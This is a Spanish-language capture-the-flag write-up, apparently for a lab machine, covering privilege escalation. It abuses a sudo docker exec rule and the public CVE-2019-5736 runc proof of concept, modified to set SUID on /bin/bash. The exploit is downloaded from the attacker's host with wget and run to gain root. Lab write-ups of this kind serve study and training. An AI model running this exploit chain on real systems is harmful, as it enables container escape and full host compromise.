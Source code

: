 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
#Output

(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Investigamos el container webapp-dev01 con docker pero no encontramos nada

```bash
docker --version
#Output

Docker version 18.06.0-ce
``` 

Miramos si existe un exploit en la web `docker 18.06.0-ce exploit github` y encontramos algo en [CVE-2019-5736-POC](https://github.com/Frichetten/CVE-2019-5736-PoC)

```bash
cd exploits
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
cd CVE-2019-5736-PoC

vi main.go
```

Aqui mirando el `main.go` vemos un commentario que dice:

`// This is the line of shell commands that will execute on host`

La modificamos para autorgar un derecho SUID a la bash

```bash
var payload = "#!/bin/bash \n chmod 4755 /bin/bash
```

Ahora lo compilamos y lo transferimos a la maquina victima

1. En la maquina de attackante buildeamos el exploit y preparamos el envio

    ```bash
    go build -ldflags "-s -w" main.go
    ls
    upx main
    mv main exploit
    python -m http.server 80
    ```

1. En la maquina victima nos connectamos al contenedor

    ```bash
    sudo /usr/bin/docker exec -it webapp-dev01 bash
    cd /tmp
    wget http://10.10.14.8/exploit
    ls
    chmod +x exploit
    ./exploit
    ```

1. No connectamos nuevamente con ssh

    ```bash
    ssh -i id_rsa noah@10.10.10.230
    sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
    ls -l /bin/bash
    bash -p
    whoami

    root
    ```

Ya estamos root y podemos leer la flag
